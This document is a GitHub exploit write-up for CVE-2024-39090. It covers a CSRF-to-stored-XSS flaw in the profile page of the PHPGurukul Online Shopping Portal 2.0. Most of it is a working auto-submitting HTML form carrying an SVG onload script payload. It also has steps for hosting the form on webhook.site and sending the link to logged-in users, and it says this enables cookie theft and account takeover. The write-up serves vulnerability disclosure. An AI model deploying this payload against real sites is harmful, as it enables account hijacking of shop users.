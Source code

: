 ## CVE-2024-39090: PHPGurukul Online Shopping Portal Project 2.0 - CSRF to Stored XSS
![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

**Exploit Title:** `PHPGurukul Online Shopping Portal Project 2.0 - CSRF to Stored XSS`  

**Exploit Author:** `Arijit Dirghangi`

**Vendor Homepage:** `https://phpgurukul.com/`

**Software Link:** `https://phpgurukul.com/shopping-portal-free-download/`

**Version:** `V 2.0`

**Vulnerable endpoint:** `https://localhost/shopping/my-account.php `

**Tested on :** `Windows 11, XAMPP`

### Proof-of-Concept
![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

**To Reproduce:**

***1)*** Visit [https://webhook.site/](https://webhook.site/), click on 'edit,' and paste the below code into 'content,' then click on Save.

```html
<html>
  <body>
    <form action="https://localhost/shopping/my-account.php" method="POST">
      <input type="hidden" name="name" value="XSS&quot;&gt;LOL&lt;svg&#47;onload&#61;alert&#40;1&#41;&gt;&lt;" />
      <input type="hidden" name="contactno" value="8372853812" />
      <input type="hidden" name="update" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

***2)*** A unique URL will be generated. Forward this URL to the end user. If the user is authenticated, the profile name will be updated with the malicious payload, and the XSS will be stored successfully.

***3)*** Using this Vulnerability, attacker can steal cookie user which cause to account takeover.

![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

***Example URL:*** [https://webhook.site/93cd6aa7-7dcb-4bbb-a71b-30a47a81c46b](https://webhook.site/93cd6aa7-7dcb-4bbb-a71b-30a47a81c46b)

***Affected Endpoint:*** [https://localhost/shopping/my-account.php](https://localhost/shopping/my-account.php)

***PoC:*** https://drive.google.com/file/d/1KQbyImLDEY7BY9Vsa32OyeZafkLZ-jTe/view

